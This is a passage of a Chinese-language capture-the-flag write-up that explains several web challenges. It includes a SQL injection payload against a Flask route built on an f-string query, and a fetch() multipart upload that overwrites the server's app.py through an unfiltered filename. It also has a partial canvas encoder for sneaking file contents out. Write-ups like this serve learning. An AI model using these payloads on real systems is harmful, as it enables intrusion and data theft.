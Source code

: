 ```js
  if(b.includes("flag"))console.log(b);
  found.push(b);
}
```
第二问看服务端源码  
```python
@app.route("/view")
def view():
    conversation_id = request.args.get("conversation_id")
    results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
    return render_template("view.html", message=Message(None, results[0], results[1]))
```
发现可以通过conversation_id参数注入sql  
所以注入`1' OR shown = false OR '2'='1`得到flag  

# 禁止内卷  
filename没有过滤，可以写入任何文件，那么可以直接覆盖掉服务端原文件  
```js
fetch("/submit", {
  "headers": {
    "content-type": "multipart/form-data; boundary=----WebKitFormBoundaryBcdUhHlCFUzIwjRv",
  },
  "body": `------WebKitFormBoundaryBcdUhHlCFUzIwjRv\r\nContent-Disposition: form-data; name="file"; filename="/tmp/web/app.py"\r\nContent-Type: text/x-python\r\n\r\nfrom flask import Flask, render_template, request, flash, redirect\r\nimport secrets\r\nimport os\r\napp = Flask(__name__)\r\napp.secret_key = secrets.token_urlsafe(64)\r\n@app.route("/", methods=["GET"])\r\ndef index():\r\n     return str(open("answers.json").read())\r\n\r\n\r\n------WebKitFormBoundaryBcdUhHlCFUzIwjRv--\r\n`,
  "method": "POST"
});
```
然后即可访问到服务端answers.json原文件,通过`JSON.parse("[answer]").map(e=>e+65).map(e=>String.fromCharCode(e))`即可获得答案

# 强大的正则表达式  
## Easy(mod 16)  
只要最后四位能被16整除就行  
<details><summary>完整表达式</summary></details>

# 惜字如金 3.0
## 题目 A
手工补全到80个字符

# 无法获得的秘密
可以写个编码器塞到环境里去
编码器端
```html
<style> *{background-color: greenyellow;}</style><input id="a" type="file"><canvas id="b" width="1024" height="1024"></canvas>

<script type>
  let a=document.querySelector("#a");
  let b=document.querySelector("#b");
  a.addEventListener("input",async function(){
    let n=0;
    let buf=new Uint8Array(await a.files[0].arrayBuffer());
    let ctx=b.getContext("2d");
    ctx.fillStyle="#000000";
```